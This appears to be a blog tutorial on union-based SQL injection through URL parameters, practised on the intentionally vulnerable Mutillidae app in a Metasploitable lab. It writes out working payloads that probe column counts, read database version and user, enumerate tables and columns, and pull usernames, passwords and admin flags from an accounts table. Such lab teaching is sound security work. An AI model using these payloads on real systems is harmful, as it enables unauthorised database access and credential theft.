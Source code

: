 +++
categories = ["Metasploitable", "SQL"]
date = "2021-02-14"
title = "SQL Get Injection"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

This can be used when the web is sending information about the user from the databases. If this is done with the GET method we will be able to see the information displayed on the URL. There is where we will modify it. 



We are working with Mutillidae on Metasploitable. There's a page in which if you fill up your user and password it answers you with your user info. The output isw something like this:

*Username* = nazori

*Password* = jeje

*Signature*= lol

The URL will be like this one: 

```
http://10.0.2.4/mutillidae/index.php?page=user-info.php&username=nazori&password=jeje&user-info-php-submit-button=View+Account+Details
```

## Checking vulnerability

First of all, let's ensure that the vulnerability exists. We will try to order by a number of column that is ridiculus `order by 1000#`. We insert this on the URL request, after the first input. `#` is replaced by `%23` in html.

```
http//...
&username=nazori'order by 1000%23&...
```

If we get an SQL related error after this, it is vulnerable.

## Reading the database information

Following the previous example, we are now to determine the number of columns existing on the current database. For this we just have to try and error until we no longer get an error. In this case it is 5.

Now we use the UNION function on the SQL request. The UNION operator is used to combine the result-set of two or more SELECT statements. Replace the `'order by 5 #` for `'union select 1,2,3,4,5`. 

```
http//...
&username=nazori'union select 1,2,3,4,5%23&...
```

* Output

*the previous output plus*
 

*Username* = 2

*Password* = 3

*Signature*= 4

Now we know that we can write on those columns (2,3,4). We are now replacing the number on the request by functions that can give us some info.

```
http//...
&username=nazori'union select 1,database(),user(),version(),5%23&...
```
* Output
  
*Username*=owasp10

*Password*=root@localhost

*Signature*=5.0.51a-3ubuntu5

## Finding database tables

To find the infromation about the rests of the tables we are going to look for `information_schema.tables`. The information schema is an ANSI-standard set of read-only views that provide information about all of the tables, views, columns, and procedures in a database. 

```
http//...
&username=nazori'union select 1,table_name,null,null,5 from information_schema.tables%23&...
```
We would get an enormous amount of table names. We may not be interested in this, so we can filter it with `WHERE table_schema = 'owasp10'` which is the name of the current web app.

The output are 7 different table names.


## Data extraction

We are going to focus on the table named `accounts`. Request the column names to see whats inside the table.

```
http//...
&username=nazori'union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'accounts'%23&...
```
* Output
  
 `cid username password mysignature is_admin` 

Now that we know the names of the columns we can ask for specific info inside the columns.

```
http//...
&username=nazori'union select 1,username,password,is_admin,5 from accounts%23&...
```

